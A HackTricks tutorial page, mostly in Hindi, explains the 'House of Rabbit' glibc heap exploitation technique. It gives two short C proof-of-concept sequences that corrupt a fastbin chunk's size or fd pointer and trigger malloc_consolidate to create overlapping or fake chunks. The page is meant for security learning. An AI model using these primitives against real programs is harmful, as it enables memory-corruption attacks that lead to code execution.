 # House of Rabbit

{% hint style="success" %}
एडब्ल्यूएस हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण एडब्ल्यूएस रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
जीसीपी हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण जीसीपी रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में पीआर जमा करके।

</details>
{% endhint %}

### आवश्यकताएँ

1. **फास्ट बिन एफडी पॉइंटर या साइज़ को संशोधित करने की क्षमता**: इसका मतलब है कि आप फास्टबिन में एक चंक के फॉरवर्ड पॉइंटर या उसका साइज़ बदल सकते हैं।
2. **`malloc_consolidate` को ट्रिगर करने की क्षमता**: इसे बड़े चंक को आवंटित करके या शीर्ष चंक को मर्ज करके किया जा सकता है, जिससे हीप को चंक को समेटने के लिए मजबूर किया जाता है।

### लक्ष्य

1. **ओवरलैपिंग चंक बनाएं**: एक चंक को दूसरे के साथ ओवरलैप करने के लिए, जिससे और हीप मेनिपुलेशन की अनुमति हो।
2. **फर्जी चंक बनाएं**: एक फर्जी चंक को एक वैध चंक के रूप में देखने के लिए एलोकेटर को धोखा देने के लिए।

## हमले के चरण

### POC 1: एक फास्ट बिन चंक का साइज़ संशोधित करें

**उद्देश्य**: एक ओवरलैपिंग चंक बनाएं, जिसे फास्टबिन चंक के साइज़ को मानिपुलेट करके किया जाता है।

* **चरण 1: चंक आवंटित करें**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **कदम 2: चंक्स को मुक्त करें**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **चरण 3: चंक का आकार संशोधित करें**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **चरण 4: `malloc_consolidate` को ट्रिगर करें**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
एक बड़े चंक को आवंटित करने से `malloc_consolidate` फ़ंक्शन को ट्रिगर होता है, जिसमें फास्ट बिन में छोटे चंक को मर्ज किया जाता है। `chunk1` का मनिपुलेटेड साइज़ `chunk2` के साथ ओवरलैप होने का कारण बनता है।

कंसोलिडेशन के बाद, `chunk1` `chunk2` के साथ ओवरलैप होता है, जिससे आगे की उत्पीड़न की जा सकती है।

### POC 2: `fd` पॉइंटर को संशोधित करें

**उद्देश्य**: फास्ट बिन `fd` पॉइंटर को मनिपुलेट करके एक नकली चंक बनाएं।

* **चरण 1: चंक्स का आवंटन करें**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**स्पष्टीकरण**: हम दो चंक आवंटित करते हैं, एक छोटा और एक बड़ा, ताकि हैप को फेक चंक के लिए सेट किया जा सके।

* **चरण 2: फेक चंक बनाएं**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **कदम 3: `chunk1` को मुक्त करें**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**स्पष्टीकरण**: हम `chunk1` को मुक्त करते हैं, जिसे त्वरित बिन सूची में जोड़ दिया जाता है।

* **चरण 4: `chunk1` के `fd` को संशोधित करें**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**स्पष्टीकरण**: हम `chunk1` के फॉरवर्ड पॉइंटर (`fd`) को हमारे फर्जी चंक की ओर पहुंचाने के लिए बदलते हैं `chunk2` के अंदर।

* **चरण 5: `malloc_consolidate` को ट्रिगर करें**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Allocating a large chunk again triggers `malloc_consolidate`, which processes the fake chunk.

The fake chunk becomes part of the fastbin list, making it a legitimate chunk for further exploitation.

### सारांश

**House of Rabbit** तकनीक में या तो एक फास्ट बिन चंक का आकार संशोधित करके ओवरलैपिंग चंक बनाने या `fd` पॉइंटर को मोडिफाई करके फेक चंक बनाने का समर्थन करता है। यह हमलावरों को हीप में वैध चंक बनाने की अनुमति देता है, जिससे विभिन्न प्रकार के शोषण संभावित होते हैं। इन चरणों को समझना और अभ्यास करना आपके हीप शोषण कौशल को बढ़ाएगा।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
